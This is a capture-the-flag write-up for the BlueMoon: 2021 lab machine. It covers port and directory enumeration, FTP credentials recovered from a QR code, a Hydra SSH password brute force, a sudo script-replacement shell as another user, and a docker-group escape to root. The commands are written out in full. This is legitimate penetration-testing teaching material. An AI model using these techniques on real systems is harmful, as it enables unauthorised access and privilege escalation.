








#  BlueMoon: 2021 Writeup

## Enumeration
- Run a nmap scan to see what ports are open and what services are running.

    ```nmap -sC -sV -oN nmap.txt 192.168.86.55```

    - Open Ports
        - 21 FTP - vsftpd 3.0.3
            - No anonymous login allowed
        - 22 SSH - OpenSSH 7.9p1
        - 80 HTTP - Apache httpd 2.4.38
    - 

- Let's check out the web server.
    - The default page has a welcome message with an image. 

    - 

    - Next I run a gobuster scan to enumerate any hidden directories. 
    
        - ```
            gobuster dir --url http://192.168.86.55 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.txt
            ```

    - gobuster comes back with '/hidden_text' which goes to a page that is under maintenance with a link to a QR code.
        - 

      - Save the QR come image on the local machine and use www.zxing.org to read the image.

      - The QR code reveals a user:userftp, password:ftpp@ssoword

        - 

        - Time to try this with the open FTP port.

   
    - The creds gets me into the FTP server which contains 2 txt files. using [get "filename"] I downloaded the files into my machine 

    - 

        - The information.txt reveals a username and mentions a password list for that user. Looks the p_lists.txt contains the list of passwords. 

        - Since SSH port is open, let's try to brute force the login with HYDRA.

        - ```
            hydra -l robin -P p_lists.txt 192.168.86.55 ssh
            ``` 
        - 
        - hyrda finds the password for user robin:k4rv3ndh4nh4ck3r

        - Now let's ssh into the machine with robin
        - 
        - I found the user1 flag

## Privilege Escalation

- I ran sudo -l command to check if robin has any sudo privilege. It looks like robin can run feedback.sh as jerry.
- robin doesn't have write permission for feedback.sh but he does have write permission for the folder that feedback.sh is in. 
- I removed the feedback.sh file and replaced it with a modified one to spawn a shell as jerry.

    - ``` 
        rm project/feedback.sh
        echo '#!/bin/bash' > project/feedback.sh
        echo '/bin/sh' >> project/feedback.sh
        chmod 
        chmod +x project/feedback.sh
        ```

    - With the new feedback.sh it will spawn a shell as the person execuation the command, in this case is jerry.
    - 

- To spawn the new shell i used the following command 
```sudo -u jerry /home/robin/project/feedback.sh```
    - -u to run the command as user jerry
    - whoami confirms the user is jerry
    - type 'bash' to spawn a better shell.
    - I found user2 flag in /home/jerry/user2.txt


- I still need root, so i continue enumerating.

- running 'id' command shows that jerry is in docker group, this can be abused to spawn a root shell.
    - googling 'docker privilege escalation' led me to GTFOBin's website that has a simple command that will spawn a root shell. 
        - 

        - ```
            docker run -v /:/mnt --rm -it alpine chroot /mnt sh
            ```
        - running this command grants me root access.
        - In /root is the root flag
        - 


### bada bing bada boom .... We have rooted BlueMoon